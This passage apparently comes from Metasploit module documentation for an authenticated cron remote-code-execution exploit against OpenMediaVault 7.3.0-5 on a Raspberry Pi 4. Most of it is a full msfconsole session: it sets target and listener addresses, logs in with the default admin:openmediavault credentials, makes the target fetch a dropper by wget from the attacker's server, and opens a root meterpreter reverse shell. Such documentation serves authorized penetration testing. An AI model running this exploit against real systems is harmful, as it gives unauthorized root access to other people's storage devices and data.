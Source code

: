 ```msf
pwd
/root
uname -a
Linux cerberus 5.15.44-Re4son-v8l+ #1 SMP PREEMPT Debian kali-pi (2022-07-03) aarch64 GNU/Linux
```
###  openmediavault 7.3.0-5 ARM64 Raspberry PI-4  Linux Dropper -  linux/aarch64/meterpreter_reverse_tcp
```msf
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > set target 1
target => 1
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > set rhosts 192.168.1.10
rhosts => 192.168.1.10
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > set lhost 192.168.1.8
lhost => 192.168.1.8
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > exploit

msf6 exploit(multi/http/openmediavault_auth_cron_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] The target appears to be vulnerable. Version 7.3.0.pre.5
[*] Executing Linux Dropper for linux/aarch64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.8:8080/DdVzoLQugqto82
[+] Cron payload execution triggered. Wait at least 1 minute for the session to be established.
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Client 192.168.201.10 (Wget/1.21.4) requested /DdVzoLQugqto82
[*] Sending payload to 192.168.201.10 (Wget/1.21.4)
[+] Cron payload entry successfully removed.
[*] Meterpreter session 9 opened (192.168.201.8:4444 -> 192.168.201.10:36792) at 2024-07-01 20:22:02 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.10
OS           : Debian  (Linux 5.15.44-Re4son-v8l+)
Architecture : aarch64
BuildTuple   : aarch64-linux-musl
Meterpreter  : aarch64/linux
meterpreter > getuid
Server username: root
meterpreter >
```
## Limitations
Ensure that your `WfsDelay` advanced option is set to more then 60 seconds to allow `cron` to execute the payload.
